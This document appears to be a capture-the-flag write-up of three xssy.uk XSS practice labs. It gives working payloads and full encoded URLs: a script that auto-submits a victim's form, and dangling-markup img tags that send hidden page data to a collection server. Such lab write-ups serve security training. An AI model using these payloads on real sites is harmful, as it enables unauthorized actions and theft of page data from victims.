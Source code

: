 
### Lab 206: XSS Lead to Unauthorized Action
- **URL Lab**: https://xssy.uk/lab/206
- **Payload**: 
```javascript
<script>window.setTimeout(() => {document.forms[0].submit()}, 500)</script>
```
- **Full URL**: 
```
https://qn4u4nsp.xssy.uk/target.ftl?name=%3Cscript%3Ewindow.setTimeout%28%28%29+%3D%3E+%7Bdocument.forms%5B0%5D.submit%28%29%7D%2C+500%29%3C%2Fscript%3E
```
- **Description**: Instead of trigger alert, escalate impact XSS using code inside JavaScript. When victims click, payload will get `document.forms[0]` & automatically `submit()`. Because we need time to browser load content, we set timeout to wait all content is loaded.

---

### Lab 671: XSS Steal Data via Dangling Markup
- **URL Lab**: https://xssy.uk/lab/671
- **Payload**: 
```html
<img src="https://eqh42jmm.xssy.uk/?
```
- **Full URL**: 
```
https://gigh5vp3.xssy.uk/target.ftl?name=%3Cimg%20src=%22https://eqh42jmm.xssy.uk/?
```
- **Description**: When inject `<i>dimana` the payload appear in HTML: `<p>Hello <i>dimana` but after this sentence, had hidden input that contain flag. Complete code in view page source:
```html
<p>Hello <i>dimana<input type=hidden name=flag value=tuuljg43><input type="hidden"></p>
```
Use dangling markup to steal this flag to server. The flag was found in the log server: `%3Cinput%20type=hidden%20name=flag%20value=4b3p56nm%3E%3Cinput%20type=`

**Note**: CSP blocked custom server:
```
content-security-policy default-src 'self'; img-src https://*.xssy.uk/ https://xssy.uk/; style-src 'unsafe-inline'
```

---

### Lab 678: Dangling Markup Part II
- **URL Lab**: https://xssy.uk/lab/678
- **Payload**: 
```html
<img src='https://eqh42jmm.xssy.uk/?
```
- **Full URL**: 
```
https://a7piuqnq.xssy.uk/target.ftl?name=%3Cimg+src%3D%27https%3A%2F%2Feqh42jmm.xssy.uk%2F%3F
```
- **Flag**: `tmapchft`
- **Description**: The step is similar like part I

---